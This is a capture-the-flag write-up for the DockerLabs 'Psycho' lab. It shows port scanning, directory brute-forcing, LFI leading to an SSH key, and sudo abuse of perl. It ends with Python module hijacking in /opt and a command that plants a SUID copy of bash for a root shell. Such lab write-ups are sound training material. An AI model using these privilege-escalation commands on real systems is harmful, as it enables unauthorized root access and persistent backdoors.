 ```yaml
---
layout: post
title: "DockerLabs - Psycho"
# date: 2025-06-14 10:00:00 +0700
categories: [dockerlabs]
tags: [ctf, linux, pathinjection, lfi, perl]
image: /assets/images/Psycho/doro.jpg
---
```

## Enumeration

### Nmap Port Scanning

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38bb36a41860eea8d10a61976c830605 (ECDSA)
|_  256 a34e4f6f76f2ba50c61a5440959c2041 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

### Directory and Files Bruteforce

```bash
[Jun 14, 2025 - 20:11:59 (WIB)] exegol-dockerlabs Psycho # ffuf -c -w `fzf-wordlists` -u "http://172.17.0.2:80/FUZZ"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2:80/FUZZ
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 0ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
```

```bash
[Jun 14, 2025 - 20:12:40 (WIB)] exegol-dockerlabs Psycho # ffuf -c -w `fzf-wordlists` -u "http://172.17.0.2:80/FUZZ"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2:80/FUZZ
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.php               [Status: 200, Size: 2596, Words: 674, Lines: 63, Duration: 1ms]
.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.                       [Status: 200, Size: 2596, Words: 674, Lines: 63, Duration: 0ms]
.html                   [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.php                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
main.css                [Status: 200, Size: 619, Words: 90, Lines: 42, Duration: 0ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htm                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htpasswds              [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htgroup                [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
wp-forum.phps           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htaccess.bak           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htuser                 [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
```

## Initial Access

### Discover Secret Parameter

![image.png](assets/images/Psycho/image.png)

### Discover Local File Inclusion

![image.png](assets/images/Psycho/image%201.png)

### Discover vaxei id_rsa files

![image.png](assets/images/Psycho/image%203.png)
![image.png](assets/images/Psycho/image%204.png)

### Shell as Luisillo

vaxei can run perl with luisillo user lets spawn shell [https://gtfobins.github.io/gtfobins/perl/#sudo](https://gtfobins.github.io/gtfobins/perl/#sudo)
![image.png](assets/images/Psycho/image%205.png)
![image.png](assets/images/Psycho/image%206.png)

## Privilege Escalation

Luisillo can run /opt/paw.py with sudo permission
```bash
luisillo@43cb958806c4:~$ sudo -l
Matching Defaults entries for luisillo on 43cb958806c4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 43cb958806c4:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

This file is vulnerable to path injection
```bash
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

![image.png](assets/images/Psycho/image%207.png)

This code vulnerable!
```bash
def run_command():
    subprocess.run(['echo Hello!'], check=True)
```

Add /opt to $PATH
```bash
luisillo@43cb958806c4:/opt$ export PATH=/opt:$PATH
luisillo@43cb958806c4:/opt$ echo $PATH
/opt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
luisillo@43cb958806c4:/opt$ 
```

Now we can create /opt/subprocess.py file with malicious content such:

```bash
import os
os.system("cp /bin/bash /tmp/root && chmod u+s /tmp/root")
```

![image.png](assets/images/Psycho/image%208.png)

`/tmp/root -p` for spawning a root shell

![image.png](assets/images/Psycho/image%209.png)
